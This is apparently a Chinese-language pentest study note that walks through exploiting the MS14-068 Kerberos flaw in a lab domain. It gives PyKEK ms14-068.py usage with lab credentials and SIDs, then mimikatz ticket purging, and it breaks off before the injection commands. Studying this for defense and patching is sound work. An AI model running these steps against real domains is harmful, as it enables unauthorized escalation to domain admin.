 + 本地破解散列值
	+ Cain
	+ LC7
	+ Ophcrack
	+ SAMInside
	+ Hashcat
+ 在线破解(NTLM Hash)
## 6.6 kerberos域用户提全漏洞分析与防范(303页)
> ms14-068 CVE-2014-6324  WINDOWS SERVER 2003 --- 2012 R2
> 在域内,知道任意域用户的用户名,SID,密码,即可将用户权限提升至与管理级别
### 6.6.1 测试环境
+ 域 :pentest.com
+ 域帐号 :user1/Aa123456@
+ 域SID :S-1-5-21-3112619480-1751665795-4053538595-1104
+ 域控制器 :WIN-2K5J2NT2O7P@pentest.com
+ kaliIP :172.16.86.131
+ 域机器的IP :172.16.86.129
### 6.26.2 PyKEK工具包
>PyKEK(python Kerberos Exploitation Kit)是一个利用kerberos协议进行渗透测试的工具包
>使用pykek可以生成一张高权限的服务票据,通过mimikatz将服务票据注入内存
+ 工具说明
ms14-068.py是pykek工具包中的ms14-068漏洞利用脚本
|参数|说明|
|----|----|
|-u <username>@<domainname>|用户名@域名|
|-s  <userSID>|用户SID|
|-d  <domainControlerADDr>|域控制器地址|
|-p <clearpassword>|明文密码|
|--rc4 <ntlmHash>|在没有明文密码的情况下使用NTLMHash登录|
+ 查看域控制器的补丁安装情况
> ms14-068 CVE-2014-6324补丁号为KB3011780
`wmic qfe get hotfixid`
+ 查看用户的SID
```cmd
whoami /user
//获取域内所有用户的SID
wmic useraccount get name.id
```
+ 生成高权限票据
> 可步骤可以在任意机器上生成,此处是在kali中生成
使用pykek生成高权限票据,会在当前目录下生成一个名为"TGT_user1@pentest.com.ccache"的票据文件
```cmd
//命令格式
ms14-068.exe -u 域成员名@域名 -s 域成员SID -d 域控制器地址 -p 域成员密码 
//针对本次实验
python ms14-068.py -u user1@pentest.com -s S-1-5-21-3112619480-1751665795-4053538595-1104 -d 172.16.86.130 -p Aa123456@
```
+ 查看注入前的权限
在一台域内机器上,此处是windows server 2008
`dir \\WIN-2K5J2NT2O7P\c$`	//当前无法列出域控制器的C盘目录
+ 清除内存中的所有票据
```cmd
//运行mimikatz
mimikatz
//清除内存中的所有票据
kerberos::purge
```
+ 将高权限票据注入内存
将票据文件复制到windows2008机器的mimikatz目录下,使用mimikatz将票据注入
```cmd
```